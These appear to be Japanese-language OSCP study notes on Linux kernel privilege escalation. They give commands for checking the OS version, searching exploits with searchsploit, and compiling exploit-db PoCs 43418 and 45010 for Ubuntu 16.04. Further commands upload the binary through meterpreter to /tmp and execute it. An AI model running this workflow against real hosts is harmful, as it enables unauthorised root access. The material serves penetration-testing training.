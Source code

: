 # Kernel Vulnerabilities

まずはOSのバージョンを精査

```
cat /etc/issue
uname -r
arch
```

searchsploitする

```
searchsploit linux kernel ubuntu 16.04
```

PoCをコンパイルする（ターゲットのアーキテクチャに合わせる）

```
gcc 43418.c -o exploit
ls -lah exploit
```



### ubuntu 16.04(45010)

* 攻撃対象ホストがgccを持っているか確認する

  ```bash
  gcc
  find / -name gcc -type f 2>/dev/null
  ```

* ない場合、kaliでコンパイルする

  ```bash
  gcc -static 45010.c -o 45010
  ```

* meterpreterでアップロードする

  ```bash
  meterpreter > upload /home/kali/Documents/OSCP/24.Assembling_the_peces/45010 /tmp/
  ```

* 実行する

  ```bash
  chmod +x 45010
  ./45010
  ```



